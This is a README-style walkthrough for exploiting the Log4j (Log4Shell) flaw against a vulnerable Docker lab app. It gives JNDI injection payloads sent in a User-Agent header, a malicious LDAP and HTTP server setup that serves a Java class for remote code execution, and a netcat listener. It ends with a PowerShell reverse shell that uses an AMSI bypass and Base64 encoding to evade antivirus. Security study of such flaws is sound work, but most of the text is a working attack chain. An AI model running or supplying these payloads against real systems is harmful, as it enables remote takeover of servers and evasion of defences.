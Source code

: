 # Log4j Vulnerability

## Sources

* [Java - Apache Log4j 2 Library](https://logging.apache.org/log4j/2.x/)
* [John Hammond Log4j Proof Of Concept Video](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1481s)
* [`leonjza` Github Repository - Log4j POC](https://github.com/leonjza/log4jpwn)
* [`xiajun325` Github Repository - Log4j POC](https://github.com/xiajun325/apache-log4j-rce-poc)
* [Github - Powershell Reverse Shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

## Initial Log4j POC

Creating vulnerable Java application on a Docker container :
```
git clone https://github.com/leonjza/log4jpwn
cd log4jpwn
sudo docker build -t log4jpwn .
sudo docker run --rm -p8080:8080 log4jpwn
```

Create `netcat` connection to see the result of the request :
```
nc -lnvp 3333
```

Send poisonned request to server :
```
curl -H 'User-Agent: ${jndi:ldap://172.28.42.128:3333/a}' localhost:8080
```

The IP address of the malicious server is `172.28.42.128`.  
The vulnerable Java application connects to the `netcat` listener (`172.28.42.128:3333`).

## Remote code execution

Create LDAP server (require Java 8) :
```
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:5555/#Log4j"
```

Compile `Log4j.java` file :
```
javac Log4j.java
```

Create HTTP server with Python in the directory that store `Log4j.class` file :
```
python3 -m http.server 5555
```

Keep the previous vulnerable Java application alive :
```
sudo docker run --rm -p8080:8080 log4jpwn
```

Send poisonned request to server :
```
curl -H 'User-Agent: ${jndi:ldap://172.28.42.128:1389/Log4j}' localhost:8080
```

Once the `curl` request is recieved, the target will connect to the LDAP server and run the `Log4j` Java class file.

## Reverse shell

Create `netcat` connection to receive the access to the reverse shell :
```
nc -lnvp 3333
```

Get [this](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) Powershell script and edit the IP address and the port to match with the target.

Then, go on [AMSI.fail](https://amsi.fail/) wbesite and copy a `Rasta-mouses Amsi-Scan-Buffer patch`. Encode the previous Rasta-mouses patch followed by the Powershell script into Base64 thanks to a [Powershell encoder](https://raikia.com/tool-powershell-encoder).

Adapt the code in `Log4j.java` file to run the corresponding command then compile :
```
javac Log4j.java
```

With the LDAP server running, start JNDI injection to the target to establish a reverse shell connection through `netcat`.